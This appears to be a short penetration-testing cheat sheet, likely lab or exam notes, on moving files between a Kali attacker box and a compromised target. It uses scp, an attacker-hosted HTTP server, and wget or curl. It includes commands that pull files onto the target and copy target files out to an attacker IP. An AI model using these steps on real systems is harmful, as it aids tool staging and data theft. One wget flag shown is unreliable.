 
### transfer files

##### scp

on the kali
```
sudo service ssh start
```

on the remote
```
from kali to target:
scp pinklii@<ip>:<s_path> <d_path>

from target to kali:
scp <s_path> pinklii@192.168.45.238:<d_path>
```

then on the kali
```
sudo service ssh stop
```

##### wget

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

on target:
```
wget -f http://<ip>:<port>/<file_path>
```

##### curl

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

```
curl http://<ip>:<port>/<file_path> -o <d_path>
```
